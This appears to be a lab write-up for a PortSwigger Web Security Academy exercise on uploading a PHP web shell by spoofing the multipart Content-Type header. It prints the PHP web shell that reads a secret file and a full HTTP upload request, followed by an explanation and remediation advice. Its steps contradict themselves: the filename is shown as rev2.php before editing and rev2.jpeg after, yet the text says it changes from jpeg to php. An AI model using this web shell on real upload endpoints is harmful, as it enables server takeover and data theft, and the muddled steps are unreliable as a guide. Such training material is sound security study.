

# Web shell upload via Content-Type restriction bypass

**Lab:** PortSwigger Web Security Academy — *Web shell upload via Content-Type restriction bypass* (Apprentice).

> This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types but relies on checking user-controllable input to verify this. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`.

Credentials: `wiener:peter`.

## 1. Locate the upload feature

Log in and go to **My account**, which lets the user upload an avatar image via `POST /my-account/avatar`.

## 2. Prepare the payload

The web shell simply reads and prints the target file:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

## 3. Intercept the upload and change the declared type

Send the avatar upload through Burp and intercept it. The relevant multipart part looks like this before editing:

```text
Content-Disposition: form-data; name="avatar"; filename="rev2.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Change only the `filename` to end in a PHP extension and the `Content-Type` to an allowed image type, while keeping the PHP payload as the actual body of the part:

```http
POST /my-account/avatar HTTP/2
Host: 0a8500ce047f8ab68359cd1000b90045.web-security-academy.net
Cookie: session=SL9ZJqip5NrysHepEZhSEsEmNCZAjvGw
Content-Type: multipart/form-data; boundary=----geckoformboundary4f9867fc0a53c23664bbab225ee3817
Content-Length: 516

------geckoformboundary4f9867fc0a53c23664bbab225ee3817
Content-Disposition: form-data; name="avatar"; filename="rev2.jpeg"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------geckoformboundary4f9867fc0a53c23664bbab225ee3817
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary4f9867fc0a53c23664bbab225ee3817
Content-Disposition: form-data; name="csrf"

438L63d35mCYUWjXA1tkJkVW2Trgy8OR
------geckoformboundary4f9867fc0a53c23664bbab225ee3817--
```

Note the filename is changed from `rev2.jpeg` to **`rev2.php`** before forwarding — only the `Content-Type` header (`image/jpeg`) and the filename's cosmetic appearance are what the server's filter actually inspects; the `.php` extension on the saved file is what matters for execution.

The server accepts the upload because it only checks the declared `Content-Type` header, never the file's real content:



## 4. Request the web shell and read the secret

Browse to (or `GET` in Repeater) the uploaded file's path, e.g. `/files/avatars/rev2.php`. The server executes the PHP and the response body is the contents of `/home/carlos/secret`.

## 5. Submit the secret

Paste the leaked value into the lab's **Submit solution** field to mark it solved.

## Why it works

The upload handler validates the MIME type announced in the multipart `Content-Type` header, which is entirely attacker-controlled — it has no bearing on the file's actual extension or content. By keeping that header set to an allowed image type while giving the file a `.php` filename, the application stores a PHP script in a web-accessible, PHP-executing directory, and the webserver happily executes it on request.

## Remediation

- Never trust the client-supplied `Content-Type` (or `filename`) for security decisions — validate the file's actual content server-side (magic bytes, and for images, full decode/re-encode).
- Store uploaded files with a server-generated name and extension, never one derived from client input.
- Keep the upload directory configured so the webserver never executes scripts in it, regardless of extension.
